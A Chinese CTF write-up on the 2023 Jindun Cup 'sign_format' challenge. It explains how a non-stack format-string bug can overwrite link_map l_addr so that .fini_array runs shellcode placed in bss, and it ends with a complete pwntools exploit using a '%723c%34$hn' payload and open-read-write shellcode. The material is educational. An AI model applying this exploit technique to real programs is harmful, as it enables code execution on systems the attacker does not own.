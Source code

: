 
### 1. .fini_array劫持

以2023金盾杯的题为例
#### 1.1 2023金盾杯 sign_format

题目介绍：一道非栈上的格式化字符串，通过修改dl_fini数组里的偏移值，使函数在退出时执行我们写在bss段上的shellcode。


题目保护分析：没开PIE，其他防护都开了。其次开启了沙箱，需要ORW

题目主要流程：
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_40135D();
  puts("Welcome here!");
  puts("It's a simple sign-in question.");
  puts("Let's start!");
  close(1);
  read(0, format, 0x100uLL);
  printf(format);
  return 0LL;
}
```

有一个很长的输入，之后是格式化字符串漏洞，但是关闭了标准输出流。

其中format保存在bss段上，所以不能修改返回地址了。
格式化字符串%n解析的是地址，当格式化字符串不写在栈上，我们无法通过访问写在栈上的地址来实现任意地址写。而且不能控制返回地址了。

考虑使用.fini_array劫持

#### 1.2 劫持.fini_array

实现功能：在执行exit函数的时候，执行任意地址上的程序

利用条件：需要修改一个在ld.so段上的值。
猜测这个值会在进行动态链接的时候过程中残留在栈上（存疑）

##### 1.2.1 原理分析

下面是程序执行流程图：

![函数执行流程](格式化字符串.md#函数执行流程)

根据上图流程，如果我们控制`exit`函数的finiarray，可以实现任意代码执行：

##### 1.2.2 dl_fini函数

![](pictureI/星盟周报1.png)

`exit`函数执行的时候会调用`dl_fini`函数。

本来l->l_addr为0，而l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr指针指向程序中的fini_array段的地址，也就是l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr的值为0x0000000000403D98

![](pictureI/星盟周报2.png)

如果我们能控制**linkmap->l_addr**指针，就可以将程序偏移到我们写的位置，执行shellcode。
需要注意这里存的是一个程序地址：0x401200，所以我们伪造`l_addr`的时候将偏移后的值改为shellcode的地址。

那么如何通过格式化字符串控制`l_addr`呢？这个就需要用到在栈上留存的一个`ld.so`上的指针了

#### 1.3 gdb动态分析利用过程

首先，在main函数执行完毕之后会跳转到exit函数执行：

![](pictureI/星盟周报7.png)

然后我们步进到exit函数中：

![](pictureI/星盟周报6.png)

可见exit函数会调用一个叫`__run_exit_handlers`的函数
继续步进，直到这个函数调用了`__dl_fini`函数，然后dl_fini函数会执行call rax地址：
![](pictureI/星盟周报5.png)

具体查看rax地址是0x40406b，指向0x404073，其实这里已经是被我们修改了。原本rax应该是0x0403D98 -> 0x401200，原本是要去执行这个代码的：
![](pictureI/星盟周报8.png)

dl_fini函数：
![](pictureI/星盟周报1.png)

当我们修改了l_addr之后，array\[i]就可以被控制了。

而我们只需要计算0x40406B - 0x403D98 = 723，就知道我们应该把`l_addr`改成多少了。那么我们怎么改这个值呢？

#### 1.4 修改ElfW中l->l_addr劫持fini_array执行

前面我们说过了，在栈上有一个ld.so的地址残留，猜测是在动态链接的过程中残留在栈上的，对应这道题：

![](pictureI/星盟周报9.png)
就是那个末尾是0x2e0的粉色的地址。里面存的值0x2d3就是723，这里是执行完格式化字符串漏洞，已经被我们修改过了。原本里面存的应该是0，对应的就是`l->l_addr = 0`

具体在dl_fini函数中：
![](pictureI/星盟周报3.png)

执行 `add rax,qword ptr [r15]` ，这个r15此时保存的就是栈上ld.so保存的那个数据，那么只要利用格式化字符串漏洞修改这个ld.so地址中存的值，就可以控制让rax中保存的值从0x401200+0x0 改为访问我们希望执行的shellcode的地址。
这里就是对应`l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`，从而让fini_array被劫持。
而具体改为什么数字，我们前面已经计算过了：0x40406B - 0x403D98 = 723
接下来只需要找到ld.so这个地址的格式化字符串偏移，然后将他里面存放的数据从0修改为723即可。

###### 这里插一嘴
在执行dl_fini的过程中有几步rax的值是0x403e00：

![](pictureI/星盟周报10.png)

这个其实是`.dynamic`节的地址，保存的是用于动态链接函数的信息表地址，或者其他什么地址。这个需要看具体值：
![](pictureI/星盟安全4.png)

###### 结构体如下：
```c
typedef struct{
	ELF64_Sxword d_tag;
	union{
		ELF64_Xword d_val;
		ELF64_Addr d_ptr;
	}d_un;
}ELF64_Dyn;
```

这个结构体根据第一个值`d_tag`的具体取值选择对应第二个值是用来做什么的。
这里应该是用来找dl_fini的偏移。
这个学过ret2dlresolve的师傅应该很熟悉
###### 言归正传

#### 1.4 exp

```python
from ctypes import *
from pwn import *
banary = "/home/giantbranch/PWN/question/City/jindun/2023/pwn1"
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(banary)
# libc = ELF("/home/giantbranch/PWN/libc/libc.so.6")
# libc=ELF("/home/giantbranch/PWN/libc/libc6_2.27-3ubuntu1.5_amd64.so")
ip = '123.56.237.147'
port = 47726
local = 1
if local:
    io = process(banary)
else:
    io = remote(ip, port)

context(log_level = 'debug', os = 'linux', arch = 'amd64')
#context(log_level = 'debug', os = 'linux', arch = 'i386')

def dbg():
    gdb.attach(io)
    pause()

s = lambda data : io.send(data)
sl = lambda data : io.sendline(data)
sa = lambda text, data : io.sendafter(text, data)
sla = lambda text, data : io.sendlineafter(text, data)
r = lambda : io.recv()
ru = lambda text : io.recvuntil(text)
uu32 = lambda : u32(io.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
iuu32 = lambda : int(io.recv(10),16)
iuu64 = lambda : int(io.recv(6),16)
uheap = lambda : u64(io.recv(6).ljust(8,b'\x00'))
lg = lambda addr : log.info(addr)
ia = lambda : io.interactive()

main_read = 0x0040144A

bss = 0x0404060

fini_array = 0x403d90   #0x403d98 - 0x403da0  .fini_array
    # array[0]->__do_global_dtors_aux
    # array[1]->fini

# payload = b"%"+b"240c%21$hhn"
# payload = b"%"+b"584c%34$hn"
#0x403fe0
# payload = b"%"+b"723c%34$hn"
payload = b"%"+b"723c%34$hn"

payload2= """
   push   0x67616c66
   push   0x2
   pop    rax
   mov    rdi,rsp
   xor    rsi,rsi
   syscall
   mov    rdi,rax
   xor    rax,rax
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
   push   0x1
   pop    rax
   push   0x2
   pop    rdi
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
"""
print(len(payload))
payload = payload + p64(0x40406b+8)+ asm(payload2)
print(len(payload))
dbg()
sl(payload)

ia()
    
```



